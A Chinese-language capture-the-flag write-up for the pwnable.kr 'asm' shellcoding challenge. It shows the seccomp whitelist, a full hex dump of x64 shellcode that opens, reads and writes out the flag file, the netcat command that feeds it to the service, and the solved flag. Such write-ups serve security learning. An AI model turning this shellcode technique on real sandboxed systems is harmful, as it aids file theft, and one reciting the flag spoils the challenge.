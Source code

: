 ## Source code
根據題目源碼，我們只能使用 `open`, `read`, `write`, `exit`, `exit_group` 五個 syscalls
```
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
```

## Shellcode
本來想用 call-pop trick 寫比較方便，沒想到死活執行不了，實在是不知道爲什麼 @@，太可惡了吧

於是借用了[這篇文章](https://www.zzz4ck.com/blog/2018/08/11/pwnable_kr_asm/) 把很長的 filename 推到 call stack 上

push 完之後：

1. sys_open() 開檔（filename 的 ptr 就是 rsp 的值）
2. 先 `sub rsp, n` 預留 n bytes 的 buffer，然後 sys_read() 讀檔案內容進這個 buffer
3. sys_write() 把檔案內容寫到 stdout

來稍微偷看一下 shell.bin 的內容
```
asm@prowl:~$ xxd /tmp/aesophor_asm/shell.bin
00000000: 5248 b86f 306f 306f 6e67 0050 48b8 6f30  RH.o0o0ong.PH.o0
00000010: 6f30 6f30 6f30 5048 b830 3030 3030 3030  o0o0o0PH.0000000
00000020: 3050 48b8 6f6f 6f6f 3030 3030 5048 b86f  0PH.oooo0000PH.o
00000030: 6f6f 6f6f 6f6f 6f50 5048 b830 3030 3030  oooooooPPH.00000
00000040: 6f6f 6f50 48b8 3030 3030 3030 3030 5050  oooPH.00000000PP
00000050: 48b8 6f6f 6f6f 3030 3030 5048 b86f 6f6f  H.oooo0000PH.ooo
00000060: 6f6f 6f6f 6f50 5050 5050 5050 5050 48b8  oooooPPPPPPPPPH.
00000070: 735f 7665 7279 5f6c 5048 b865 5f6e 616d  s_very_lPH.e_nam
00000080: 655f 6950 48b8 5f74 6865 5f66 696c 5048  e_iPH._the_filPH
00000090: b86c 652e 736f 7272 7950 48b8 5f74 6869  .le.sorryPH._thi
000000a0: 735f 6669 5048 b861 7365 5f72 6561 6450  s_fiPH.ase_readP
000000b0: 48b8 6669 6c65 5f70 6c65 5048 b86b 725f  H.file_plePH.kr_
000000c0: 666c 6167 5f50 48b8 7077 6e61 626c 652e  flag_PH.pwnable.
000000d0: 5048 b874 6869 735f 6973 5f50 4831 c004  PH.this_is_PH1..
000000e0: 0248 89e7 4831 f648 31d2 0f05 4889 c748  .H..H1.H1...H..H
000000f0: 31c0 4883 ec32 4889 e6ba 3200 0000 0f05  1.H..2H...2.....
00000100: 4889 c248 31c0 48ff c048 31ff 48ff c748  H..H1.H..H1.H..H
00000110: 89e6 0f05 c3                             .....
```

## Pwn
首先用 GNU Make 做出 shell.bin 之後 scp 上傳到 server:/tmp 下自己的目錄

接下來就把 shell.bin 的內容 pipe 到 process 裏
```
asm@prowl:~$ cat /tmp/aesophor_asm/shell.bin | nc 0 9026
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: Mak1ng_shelLcodE_i5_veRy_eaSy
```

flag: `Mak1ng_shelLcodE_i5_veRy_eaSy`
